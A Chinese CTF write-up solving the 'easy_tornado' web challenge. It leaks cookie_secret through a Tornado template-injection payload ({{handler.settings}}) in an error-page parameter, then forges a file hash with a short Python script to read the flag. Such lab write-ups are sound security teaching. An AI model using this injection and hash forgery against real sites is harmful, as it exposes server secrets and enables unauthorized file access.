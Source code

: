 ```yaml
---
title: 护网杯——easy_tornado
date: 2020-03-24 16:50:54
id: 20200324165054
tags: 
	- CTF
	- Web_wp
categories: 网络安全
---
```


首先我们打开网页，发现三个链接。

![image-20200324165348081](/Users/optimus/Library/Application Support/typora-user-images/image-20200324165348081.png)

点击第一个flag.txt，打开提示我们：

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165534.png)

我们观察url：

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/flag.txt&filehash=77e8b02dac1f3d976567bc691476bfcc
```

发现通过get传递两个参数，一个`filename`，一个`filehash`。因此我们可以构造url，访问flag的位置。

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=77e8b02dac1f3d976567bc691476bfcc
```

访问发现返回`Error`。

因此查看另外两个文件的信息。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165850.png)

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165859.png)

发现render，判断这是一个web框架的方法，而下面hints.txt的内容则告诉了我们上面url中的filehash是如何生成的。

现在我们不知道cookie_secret是多少，我们无论通过`F12`，在network中查看，还是抓包分析，都没有发现cookie_secret的值。

现在render这个信息还没有用，那么有没有可能漏洞是出现在这个函数中呐。

我们通过百度题目名`tornado`，发现这是一个python的web框架，坚信了问题是在这个框架上面。

百度`tornado render漏洞`，发现render是通过传递的参数来确定返回的内容，而我们的报错页面正是通过参数来显示的，因此我们可以利用它来返回tornado中的一些定义的对象。

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/error?msg={{handler.settings}}
```

返回信息中确定cookie_secret的值为：

```json
'cookie_secret': 'd27d0275-4f9b-45f6-b948-37f6b05c8d42'
```

现在我们可以编写脚本，计算hash值：

```python
# coding=utf-8
from hashlib import md5

cookie_secret = 'd27d0275-4f9b-45f6-b948-37f6b05c8d42'

file_name = '/fllllllllllllag'

file_hash = md5(cookie_secret + md5(file_name).hexdigest())
print(file_hash.hexdigest())

```

我们可以先将`file_name`写为`/file.txt`，执行获得hash值，和原来url中的`filehash`是否一样，判断脚本正确性。

执行脚本得到hash值：

```
a99916bbf8732bd409c33d161d751c90
```

构造url：

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=a99916bbf8732bd409c33d161d751c90
```

访问该url得到flag值。